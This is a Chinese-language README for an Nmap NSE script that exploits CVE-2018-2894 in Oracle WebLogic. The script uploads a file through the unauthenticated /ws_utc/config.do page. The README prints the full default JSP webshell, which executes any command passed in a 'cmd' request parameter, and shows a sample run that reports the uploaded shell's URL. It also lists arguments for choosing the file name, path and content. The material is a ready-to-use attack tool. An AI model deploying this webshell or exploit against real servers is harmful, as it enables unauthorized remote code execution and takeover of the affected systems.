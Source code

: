 # CVE-2018-2894


ws_utc 为 WebLogic Web 服务测试客户端，其配置页面存在未授权访问的问题，路径为 /ws_utc/config.do

攻击者通过访问此配置页面，先更改工作目录，用有效的 WebLogic Web 路径替换存储 JKS Keystores 的文件目录，然后在上传 JKS Keystores 时上传恶意的 JSP 脚本文件。访问最终的 JSP 文件路径地址，即可做到代码执行

安装方式：将weblogic-cve-2018-2894.nse放入nmap安装目录下的scripts目录中

说明:默认情况下会写入一个JSP执行命令的webshell：

```
<%@ page import=\"java.io.*\" %><%try {String cmd = request.getParameter(\"cmd\");Process child = Runtime.getRuntime().exec(cmd);InputStream in = child.getInputStream();int c;while ((c = in.read()) != -1) {out.print((char)c);}in.close();try {child.waitFor();}catch (InterruptedException e) {e.printStackTrace();}}catch (IOException e) {System.err.println(e);}%>
``

你可以通过`--script-args`来指定文件名、URI路径和文件内容

## Usage

```
root@kali:~# nmap -Pn 172.19.0.2 -p 7001 --script=weblogic-cve-2018-2894 -n
Starting Nmap 7.70 ( https://nmap.org ) at 2018-07-23 02:26 EDT
Nmap scan report for 172.19.0.2
Host is up (0.000055s latency).

PORT     STATE SERVICE
7001/tcp open  afs3-callback
| weblogic-cve-2018-2894: 
|_  url: /ws_utc/config/keystore/1532327177_test.jsp
MAC Address: 02:42:AC:13:00:02 (Unknown)
```

## More

* -- @args weblogic-cve-2018-2894.uri points to the file '/weblogic/'. Default /
* -- @args weblogic-cve-2018-2894.filename the name of the file to be uploaded
* -- @args weblogic-cve-2018-2894.content  file's contents
* -- Other useful arguments when using this script are:
* -- * http.useragent = String - User Agent used in HTTP requests


